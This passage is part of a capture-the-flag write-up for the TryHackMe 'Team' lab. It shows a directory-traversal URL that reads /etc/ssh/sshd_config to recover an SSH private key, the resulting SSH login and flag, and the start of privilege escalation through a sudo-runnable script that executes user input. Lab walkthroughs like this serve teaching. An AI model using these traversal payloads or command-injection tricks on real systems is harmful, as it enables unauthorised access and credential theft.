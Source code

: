 Now, go to the `intruder` tab, and setup as the following:

![](https://i.imgur.com/JfUKF2w.png)

![](https://i.imgur.com/A9qcD6D.png)

![](https://i.imgur.com/HgfY6eP.png)

I've put in the payload from [here](https://raw.githubusercontent.com/hussein98d/LFI-files/master/list.txt)

Now, you can let it run, but community edition sucks for this. Speed is shit and the thing we are looking for, is towards the bottom of the list. Let me save you some trouble, the path we are looking for, is `/etc/ssh/sshd_config`. The url thus being `http://dev.team.thm/script.php?page=../../../../etc/ssh/sshd_config`

![](https://i.imgur.com/UZN47TX.png)

We see the sweet sweet private key, which means we can get in! Since the formatting is shit, go the source and the copy-paste it. Yeet all the '#' in the starting. 

We are in! 

```
❯ ssh dale@10.10.82.31 -i temp
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ ls
user.txt
dale@TEAM:~$ cat user.txt
THM{HELL YEAH}
```

We are done!

## 3. Priv Esc

Okay! So the first thing I have learnt to do is check for `sudo` details.

```
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

Looks good. Let's head over to there and see what we can mess with.

```
dale@TEAM:/home/gyles$ cat admin_checks 
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```